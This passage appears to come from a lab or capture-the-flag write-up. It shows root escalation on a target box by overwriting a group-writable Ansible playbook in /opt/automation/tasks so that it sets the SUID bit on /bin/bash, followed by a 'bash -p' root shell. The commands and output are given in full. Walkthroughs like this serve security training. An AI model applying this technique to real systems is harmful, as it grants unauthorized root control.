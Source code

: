It is strange to see the /root/ folder owned by staff. There is another folder owned by staff under `/opt/autmoation/`.
```
ls -al /opt/automation/
total 12
drwxr-xr-x 3 root root  4096 Oct 20  2022 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
drwxrwxr-x 2 root staff 4096 Jul  4 21:16 tasks
```
We can see the folder is group writable, and automation suggests these might be tasks automatically run by a user, perhaps root?

### Becoming root

```
ls
playbook_1.yml
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

We can see this is an ansible playbook, and ansible themselves have [documentations on how one might elevate privileges for their playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html). We might be able to invoke ansible as root, allowing us to execute any command specified in an ansible playbook. Rewriting the playbook contents, I have it designed to add SUID privileges to /bin/bash, allowing us to run a bash shell as root:

```
- hosts: localhost
  tasks:
  - name: PrivEsc
    ansible.builtin.shell:
      cmd: "chmod u+s /bin/bash"
```

Running the ansible playbook, invoking --become-user to elevate privileges:

```
ansible-playbook --become-user playbook playbook_1.yml
```
Lastly, we check the newly changed bash file, and become root:

```
ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash -t
whoami
frank
/bin/bash -p
whoami
root
```
